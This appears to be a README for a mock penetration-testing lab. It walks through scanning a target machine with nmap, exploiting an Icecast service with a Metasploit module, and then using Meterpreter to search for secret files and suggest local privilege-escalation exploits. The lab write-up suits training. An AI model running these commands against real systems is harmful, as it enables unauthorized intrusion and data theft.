






# Penetration Testing Engagement Report

This is a write-up for a 'faux' Penetration Testing Engagement. This document provides a walkthrough of assessing a vulnerable server and A report on the technical, business risk, and mitigation strategies. 

## Background

This document contains the following details:
- Scope of Engagement
- Engagement Walkthrough
- Penetration Testing Engagement Report

## Overview

The context of the engagement was assessing the vulnerability of a CEO's computer. Importantly, this was to determine the veracity of the system and to ensure data privacy/system integrity are held to the highest standards. It was crucial to ensure that all vulnerability testing was done strictly in a way that did no impact upon the acitivity and use of the system.

## Engagement Walkthrough

This section  outlines the steps taken to assess the vulnerability of the CEO's computer:

1. Running a service and version scan using `nmap` allowed the ability to determine the services that are running on the target.

>> Command used: `nmap -sS -sV -O 192.168.0.20`

2. From the previous step, we are able to see that the `Icecast` service is running. Due to this, we can search for any Icecast exploits:

>> Run the SearchSploit commands for Icecast exploits. `searchsploit -t icecast windows`

3. Now with understanding what vectors are available, we can use Metasploit to move forward.

>> Run the command `msfconsole`

4. Search for the Icecast module and load it for use.

>> Run the command to search for the Icecast module `search icecast`

>> Run the command to use the Icecast module `use 0` abd set the `RHOST` to the target machine `set RHOSTS 192.168.0.20`

>> run the Icecast exploit `run`

5. Now that the Meterpreter session is open. We can search the system and find sensitive data.

>> run the command `search -f *secret*` or make use of directory traversal

>> additionally, run the command to search for `recipe.txt` by running `search -f *recipe*`

6. Furthermore, we can make use of Meterpreter's local exploit suggester to find additional possible exploits.

>> `run post/multi/recon/local_exploit_suggester`

## Summary of Penetration Testing Engagement Report

Following the vulnerability testing, a [Report](Resources/Pentest-Report.docx) was crafted to outline and suggest recommendation(s) and mitigation strategies against the primary concerns. 